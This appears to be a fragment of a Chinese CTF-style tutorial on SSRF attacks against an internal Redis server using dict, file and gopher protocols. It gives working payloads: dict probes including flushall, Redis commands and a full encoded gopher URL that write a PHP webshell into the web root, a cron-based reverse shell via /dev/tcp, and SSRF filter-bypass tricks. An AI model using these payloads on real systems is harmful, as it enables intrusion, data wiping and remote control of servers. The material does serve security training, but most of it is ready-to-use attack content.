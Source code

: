 1.  `#探测dict协议是否可用` 1.  `?url=dict://127.0.0.1:6379/info` 1.  `?url=dict://127.0.0.1:6379/get:user` 1.  `?url=dict://127.0.0.1:6379/flushall` 
##### 0x03:File&amp;http协议

file&amp;http

> 
file协议主要用于读取服务器本地文件，访问的是本地的静态资源<br/> file只能静态读取，http可以动态解析


命令格式

> 
file://文件路径


其他协议可以看师傅汇总的

##### 0x04:题目训练**

<br/> 先使用dict协议探测一下端口，http协议有的时候会探测不到 

**<br/> 协议没有被过滤，那么就可以考虑使用Gopher协议去攻击Redis，常见的也就四种：
1.  写SSH 1.  写Webshell 1.  主从复制 1.  反弹shell 
这里先尝试一下写webshell，使用file协议查看一下发现有www-data用户，对应的目录就是/var/www,那应该/var/www/html便是网站根目录了

<br/> 那下面就写webshell,常见的payload如下：
1.  `flushall` 1.  `config set dir /var/www/html` 1.  `config set dbfilename shell.php` 1.  `set 'webshell' '&lt;?php phpinfo();?&gt;'` 1.  `save` 
利用上面的工具生成适配于准确无误的gopher<br/>  

<br/> 再进行url编码一次，传入进去
1.  `?url=gopher://127.0.0.1:6379/_%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%38%25%30%64%25%30%61%25%36%36%25%36%63%25%37%35%25%37%33%25%36%38%25%36%31%25%36%63%25%36%63%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%36%34%25%36%39%25%37%32%25%30%64%25%30%61%25%32%34%25%33%31%25%33%33%25%30%64%25%30%61%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%30%64%25%30%61%25%32%61%25%33%34%25%30%64%25%30%61%25%32%34%25%33%36%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%31%25%33%30%25%30%64%25%30%61%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%30%64%25%30%61%25%32%34%25%33%39%25%30%64%25%30%61%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%64%25%30%61%25%32%61%25%33%33%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%38%25%30%64%25%30%61%25%37%37%25%36%35%25%36%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%30%64%25%30%61%25%32%34%25%33%31%25%33%38%25%30%64%25%30%61%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%37%30%25%36%38%25%37%30%25%36%39%25%36%65%25%36%36%25%36%66%25%32%38%25%32%39%25%33%62%25%33%66%25%33%65%25%30%64%25%30%61%25%32%61%25%33%31%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61` 
<br/> 可以看到shell.php文件已经传入成功，下面写马连接即可（需要注意过滤了空格，使用${IFS}绕过即可）

<br/> 再推荐一个工具<br/> https://github.com/tarunkant/Gopherus

##### 0x05:整理一些payload及bypass姿势

Gopher协议反弹shell
1.  `flushall` 1.  `set 1 '\n\n*/1 * * * * bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1\n\n'` 1.  `config set dir /var/spool/cron/` 1.  `config set dbfilename root` 1.  `save` 
SSRF bypass姿势
1.  `#url跳转bypass：` 1.  `利用问号绕过限制` 1.  `url=https://www.baidu.com?www.xxxx.me` 1.  `利用@绕过限制` 1.  `url=https://www.baidu.com@www.xxxx.me` 1.  `3.利用斜杠反斜杠绕过限制` 1.  `4.利用#绕过限制` 1.  `url=https://www.baidu.com#www.xxxx.me` 1.  `5.利用子域名绕过` 1.  `6.利用畸形url绕过` 1.  `7.利用跳转ip绕过` 
数字IP Bypass
1.  `如果过滤了127等，可以使用IP转数字` 1.  `例如：` 1.  `127.0.0.1-》2130706433` 
## 总结
